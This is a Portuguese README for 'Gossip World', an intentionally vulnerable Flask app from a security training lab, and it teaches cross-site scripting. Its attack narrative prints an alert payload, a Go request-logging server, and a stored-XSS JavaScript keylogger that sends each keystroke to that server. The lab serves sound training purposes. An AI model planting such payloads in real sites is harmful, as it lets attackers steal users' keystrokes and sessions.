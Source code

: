 # Gossip World

<p align="center">
    <img src="images/banner.png"/>
    </br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

Gossip World é um aplicativo Flask simples que contém um exemplo de vulnerabilidades de injeção múltipla (XSS) e seu principal objetivo é descrever como um usuário mal-intencionado poderia explorá-los neste aplicativo propositalmente vulnerável.

## Index

- [Gossip World](#gossip-world)
  - [Index](#index)
  - [O que é Cross Site Scripting?](#o-que-é-cross-site-scripting)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 💵](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que é Cross Site Scripting?

As falhas de XSS ocorrem sempre que um aplicativo inclui dados não confiáveis em uma nova página da Web sem validação, escape adequados, ou atualiza uma página da Web existente com dados fornecidos pelo usuário usando uma API do navegador que pode criar HTML ou JavaScript. 

O XSS permite que os invasores executem scripts no navegador da vítima que podem sequestrar sessões do usuário, desfigurar sites ou redirecionar o usuário para sites maliciosos.

O objetivo principal deste aplicativo é discutir como as vulnerabilidades de **Cross-Site Scripting** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas. Saiba mais <a href="https://owasp.org/www-community/attacks/xss/">aqui</a>.

## Como inicializar o aplicativo?

Para iniciar este aplicativo **intencionalmente inseguro**, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/gossip-world
```

```sh
make install
```

Depois é só visitar [localhost:10007][app] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Criar um novo usuário
- Tente criar sua fofoca!
- Tente deixar um comentário em uma fofoca

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.

### 👀

### Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.

Após inspecionar a aplicação, é possível identificar que a entrada de comentário está permitindo scripts e pode ser executada em um navegador web. Ocorre nos campos _search_, _comment_ e _post_. As imagens a seguir mostram esse comportamento quando o texto a seguir é usado como entrada nesses campos: 

```
<script>alert(1)</script>
```

Searching for a post:
<img src="images/attack-1.png" align="center"/>
<img src="images/attack-2.png" align="center"/>

Adding a new comment to a post:
<img src="images/attack-3.png" align="center"/>
<img src="images/attack-4.png" align="center"/>

Adding a new post:
<img src="images/attack-5.png" align="center"/>
<img src="images/attack-6.png" align="center"/>

A validação de entrada ausente permite que um usuário mal-intencionado insira alguns scripts que persistirão no servidor e serão executados no navegador das vítimas toda vez que acessarem as rotas que contêm esses scripts. 

### 🔥

Um invasor pode abusar dessa falha gerando um código JS malicioso e enviando-o para outros usuários. Para demonstrar isso, o exemplo a seguir obterá todas as entradas de teclado de um usuário persistindo um código malicioso no servidor.

Primeiro, a seguinte API Golang pode ser construída (main.go) que registra todas as solicitações recebidas:

```go
package main
import (
   "fmt"
   "github.com/labstack/echo"
)
func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}
func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```

Para iniciar a API, o seguinte comando pode ser usado (você deve verificar este [guia](https://golang.org/doc/install) se precisar de ajuda com o Golang):

```sh
go run main.go
```

Em seguida, o invasor pode inserir uma nova postagem pela rota **/newgossip** usando o seguinte código no campo de texto:

```html
<script>
  var k = "";
  document.onkeypress = function (e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://localhost:1232/" + k;
  };
</script>
```

Este código implementa um keylogger para capturar todas as entradas de teclado dos usuários e enviá-las para a API criada anteriormente.

   <img src="images/attack-7.png" align="center"/>

Quando uma vítima acessa a postagem, o navegador interpreta o texto entre a tag do script como código e o executa secretamente. A imagem a seguir mostra a vítima digitando letras na página que foi "infectada" pelo JS malicioso: 

<img src="images/attack-8.png" align="center"/>

O invasor agora obtém toda a entrada no log do servidor, conforme mostrado abaixo:

<img src="images/attack-9.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Executar scripts por meio de campos de entrada

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [esses pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
